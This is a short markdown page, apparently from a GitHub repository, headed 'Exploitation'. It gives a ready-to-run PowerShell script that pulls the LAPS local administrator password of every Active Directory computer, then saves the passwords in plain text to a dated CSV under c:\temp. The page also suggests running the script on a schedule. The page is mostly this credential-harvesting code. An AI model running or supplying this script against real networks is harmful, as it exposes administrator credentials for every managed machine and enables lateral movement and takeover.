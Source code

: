 This script loads the Active Directory module, finds the LAPS password fields, and then saves them to a CSV with the date appended to the file name. The only thing you’d need to change is the file path.

## <span style="color:lightgreen">Exploitation</span>

1. Just Open Powershell and paste this script
```powershell
$Computers = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
$Computers | Sort-Object ms-Mcs-AdmPwdExpirationTime | Format-Table -AutoSize Name, DnsHostName, ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
$computers | Export-Csv -path c:\temp\"LAPS-$((Get-Date).ToString("MM-dd-yyyy")).csv" -NoTypeInformation
```

2. Then, save it to the location of your choice. For this example, I’m saving to
```console
C:\Scripts\LAPSexport.ps1
```

3. Then, run the script to verify it works correctly. If it does, you should automate this procedure by creating a Scheduled Task.